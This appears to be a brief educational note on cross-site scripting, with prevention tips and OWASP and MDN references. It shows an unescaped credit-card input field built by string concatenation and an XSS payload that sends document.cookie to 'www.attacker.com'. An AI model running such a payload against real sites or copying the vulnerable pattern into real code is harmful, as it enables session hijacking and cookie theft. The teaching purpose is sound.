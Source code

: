 # Cross Site Scripting ( XSS )

Injecting a maclious client side code by the hacker and running in our app or server etc. By doing so hackers can catch hold
of session tokens, cookie, and/or HTML content rewrite.

# Example:
## 1. Hijacking Session ID
HTML code for validation in client side 
```html
(String) page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";
```
XSS script by hacker 
```js
'><script>document.location=
'http://www.attacker.com/cgi-bin/cookie.cgi?
foo='+document.cookie</script>'.
```

# How to prevent 
- Use modern framework which automatically escapes XSS attack. Like ReactJS, Ruby on Rails (latest)
- Escaping untrusted HTTP request (CSS, body, javascript, attribute, URL)
- Applying encoding while manipulating the DOM directly 
- Enabling Content Security Policy (CSP)

Reference
- [OWASP](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html)
- [MDN](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)